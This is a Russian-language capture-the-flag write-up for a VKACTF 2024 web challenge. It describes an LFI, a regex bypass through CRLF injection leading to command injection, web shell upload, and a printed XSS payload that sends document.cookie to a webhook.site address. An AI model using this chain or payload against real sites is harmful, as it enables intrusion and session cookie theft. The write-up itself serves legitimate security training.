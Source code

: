 # Breakfast

|   Cобытие   | Название | Категория | Сложность |
| :---------: | :------: | :-------: | :-------: |
| VKACTF 2024 |  BigSmokePages |  Web  |  Легко  |

## Описание

>Авторы: EGM x Po4est
>
>BigSmoke записывает все свои задачи в блокнот, а потом отправляет их кому-то для проверки. Но зачем???

# Решение

1. На ручке view_file.php, находим lfi в параметре file.
2. Находим сорцы нашего сервиса. Видим, что в create_file.php используется ```system("touch ./files/$filename")``` с предварительной проверкой 
```
if (preg_match('/^[a-zA-Z0-9_]{0,30}+$/m', $filename) !== 1) {
        header("Location: error.php");
        exit;
}
```
3. Видим CRLF инъекцию в регулярное выражение и обходим его для выполнения os injection.
4. Заливаем веб шелл и с помощью него в файл ```evil.html``` записываем ```XSS``` нагрузку 
```<img src onerror="window.location.replace('https://webhook.site/<webhook>?a='+document.cookie)">``` 
для получения ```cookie```. 
5. Отправляем боту ссылку ```http://bigsmokepages.vkactf.ru/evil.html``` и ловим на веб хук флаг, находящийся у него в куках.



### Флаг


```
vka{B1G_Smoke_bIg_boSS}
```
